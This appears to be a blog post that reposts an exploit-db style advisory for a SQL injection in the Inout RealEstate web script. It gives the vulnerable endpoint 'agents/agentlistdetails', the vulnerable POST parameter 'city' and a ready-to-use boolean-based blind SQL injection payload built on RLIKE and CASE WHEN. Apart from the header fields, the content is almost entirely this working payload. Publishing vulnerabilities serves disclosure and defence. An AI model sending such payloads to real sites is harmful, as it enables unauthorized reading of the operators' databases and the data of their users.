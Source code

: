 ```yaml
---
layout:     post
title:      "Inout RealEstate - SQL Injection"
date:       2019-04-02 12:01
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Inout RealEstate - SQL Injection
# Date: 29.03.2019
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://www.inoutscripts.com/products/inout-realestate/
# Demo Site: http://inout-realestate.demo.inoutscripts.net/
# Version: Lastest
# Tested on: Kali Linux
# CVE: N/A

----- PoC: SQLi -----

Request: http://localhost/[PATH]/agents/agentlistdetails
Vulnerable Parameter: city (POST)
Payload: brokername=&city=1' RLIKE (SELECT (CASE WHEN (8778=8778) THEN 1
ELSE 0x28 END)) AND 'VZpy'='VZpy&cityname=e&page=1&sortby=1
